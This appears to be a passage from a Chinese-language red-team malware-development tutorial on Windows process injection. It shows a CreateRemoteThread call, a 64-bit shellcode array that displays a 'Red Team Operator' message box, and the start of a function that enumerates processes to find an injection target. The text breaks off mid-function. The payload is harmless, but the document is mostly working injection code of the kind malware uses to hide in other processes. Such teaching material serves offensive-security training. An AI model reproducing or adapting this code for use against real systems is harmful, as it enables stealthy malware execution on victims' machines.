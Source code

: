 ```cpp
// CreateRemoteThread()创建一个在另一个进程的虚拟地址空间中运行的线程
hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
    if (hThread != NULL) {
        // 等待0.5秒
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
```

进程注入完整代码
--------

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

// MessageBox shellcode - 64-bit
unsigned char payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
  0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0x0f, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x01, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x01, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0x0c, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x3e,
  0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x00, 0x00, 0x00,
  0x00, 0x3e, 0x48, 0x8d, 0x95, 0x1a, 0x01, 0x00, 0x00, 0x3e, 0x4c, 0x8d,
  0x85, 0x35, 0x01, 0x00, 0x00, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x07, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6,
  0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x48, 0x69, 0x20, 0x66, 0x72,
  0x6f, 0x6d, 0x20, 0x52, 0x65, 0x64, 0x20, 0x54, 0x65, 0x61, 0x6d, 0x20,
  0x4f, 0x70, 0x65, 0x72, 0x61, 0x74, 0x6f, 0x72, 0x21, 0x00, 0x52, 0x54,
  0x4f, 0x3a, 0x20, 0x4d, 0x61, 0x6c, 0x44, 0x65, 0x76, 0x00
};
unsigned int payload_len = 334;

int FindTarget(const char *procname) {

        // PROCESSENTRY32描述快照拍摄时,驻留在系统地址空间的进程列表中的一个条目
        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
        // CreateToolhelp32Snapshot()拍摄指定进程的快照
        // TH32CS_SNAPPROCESS包括快照中系统的所有进程
        // 返回句柄
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;    // 拍摄快照失败，返回0
```
